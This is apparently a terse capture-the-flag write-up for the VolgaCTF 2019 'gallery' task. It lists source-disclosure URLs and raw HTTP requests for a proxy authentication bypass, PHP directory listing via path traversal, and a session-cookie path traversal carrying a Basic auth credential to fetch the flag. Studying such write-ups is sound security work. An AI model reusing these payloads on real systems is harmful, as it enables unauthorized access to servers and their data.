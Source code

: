 **Node.js source code disclosure**
```
http://gallery.q.2019.volgactf.ru/package.json
http://gallery.q.2019.volgactf.ru/js/index.js
http://gallery.q.2019.volgactf.ru/js/config.js
```

**Node.js proxy auth bypass**
```
GET /api\images?year=2018 HTTP/1.1
Host: gallery.q.2019.volgactf.ru
```

**PHP Directory Listing**
```
GET /api\images?year=../../../../../../%00 HTTP/1.1
Host: gallery.q.2019.volgactf.ru
```

**Node.js session-file-store Path Traversal**
```
GET /api/flag HTTP/1.1
Host: 142.93.204.169
Authorization: Basic dm9sZ2FjdGY6bmc5OGhhbnNkam5hc29pZmpuYW9zZmlu
Cookie: SESSION=s:../../volga_adminpanel/sessions/euzb7bMKx-5F29b2xNobGTDoWXmVFlEM.KrY7Bi6sZtBB/J4sPnVj5QkDEuBu/0QelFQQqAV6yh4;
```